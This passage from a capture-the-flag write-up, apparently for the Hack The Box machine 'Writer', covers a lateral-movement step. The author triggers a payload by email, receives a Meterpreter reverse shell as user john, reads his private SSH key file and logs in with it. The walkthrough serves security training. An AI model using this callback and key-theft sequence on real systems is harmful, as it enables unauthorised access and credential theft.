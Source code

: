 Now I just need to send an email to john somehow to get a callback.  Luckily, this is pretty easy to do using python:
```Awk
kyle@writer:/tmp/.tempdir$ python3
Python 3.8.10 (default, Jun  2 2021, 10:49:15)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import smtplib
>>> server = smtplib.SMTP("127.0.0.1", 25)
>>> server.sendmail("kyle@writer.htb", "john@writer.htb", "Get me a shell!")
```

And then we have a Meterpreter session:
```Awk
msf6 exploit(multi/handler) >
[*] Sending stage (3012548 bytes) to 10.10.11.101
se[*] Meterpreter session 2 opened (10.10.10.10:4646 -> 10.10.11.101:34270 ) at 2021-12-11 09:16:54 -0500                                                                                                        ssions

Active sessions                                                                                                                                                                                                  ===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  2         meterpreter x64/linux  john @ 10.10.11.101  10.10.10.10:4646 -> 10.10.11.101:34270  (10.10.11.101)
```

Using this, we can grab john's private SSH key:
```Awk
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 377516 created.
Channel 1 created.
cat /home/john/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----

-----END OPENSSH PRIVATE KEY-----
exit
meterpreter > bg
[*] Backgrounding session 2...
```

We can then put this in a file and SSH in as john using it:
```Awk
└─# vi john_id_rsa

└─# chmod 600 john_id_rsa

└─# ssh john@writer.htb -i john_id_rsa
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
john@writer:~$
```
